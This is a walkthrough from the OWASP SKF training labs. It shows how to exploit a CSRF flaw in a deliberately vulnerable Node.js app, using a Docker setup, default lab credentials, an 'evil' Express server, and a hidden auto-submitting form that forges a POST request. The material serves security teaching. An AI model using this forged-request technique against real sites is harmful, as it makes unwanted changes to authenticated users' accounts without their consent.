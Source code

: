 # CSRF

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-csrf
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-csrf
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF/1.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF/3.png)

Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following express application:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () =>
  console.log(`Listening on port ${port}...!!!`)
);
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodejs express.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to &gt; views/evil.ejs and run the command below to start our evil application.

```text
$ node evil_server.js
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF/4.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF/5.png)

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/csrf" %}

